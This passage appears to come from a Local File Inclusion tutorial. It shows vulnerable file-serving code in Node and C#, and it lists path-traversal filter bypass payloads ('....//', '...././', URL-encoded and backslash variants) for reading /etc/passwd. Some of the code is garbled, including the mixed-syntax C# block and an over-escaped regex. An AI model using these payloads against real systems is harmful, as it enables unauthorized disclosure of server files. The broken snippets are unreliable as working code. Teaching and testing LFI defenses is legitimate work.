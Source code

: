 Here, the `readFile` function uses `req.query.language` directly to construct the file path. If not properly validated, this can allow an attacker to read arbitrary files from the server. A similar risk exists in frameworks like Express.js when using functions such as `render()` to render specific files based on user-supplied parameters in the URL path.

#### .NET (C#)

In .NET applications, the `Response.WriteFile` function is commonly used to serve files dynamically. If the file path is derived from user input, it can lead to vulnerabilities. Below is an example in C# demonstrating this issue:

```csharp
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %>
}

```

Here, if `language` is not properly validated, an attacker could control which file content gets written to the response. This could potentially expose sensitive data or allow for the execution of malicious code.

Exploit & Advanced Bypass Techniques for Local File Inclusion (LFI)

#### Non-Recursive Path Traversal Filters

if code have str\_replace('../', '', $\_GET\['language']);

```php

using ....//
<http://127.0.0.1/index.php?language=....//....//....//....//etc/passwd>

Or using ...././

<http://127.0.0.1/index.php?language=...././...././...././...././etc/passwd>

using Encodeing
<http://127.0.0.1/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64>
or usnig
....\\/....\\/....\\/etc/passwd 
<http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd>

```

#### Approved Paths

```php
if(preg_match('/^\\\\\\\\.\\\\\\\\/languages\\\\\\\\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
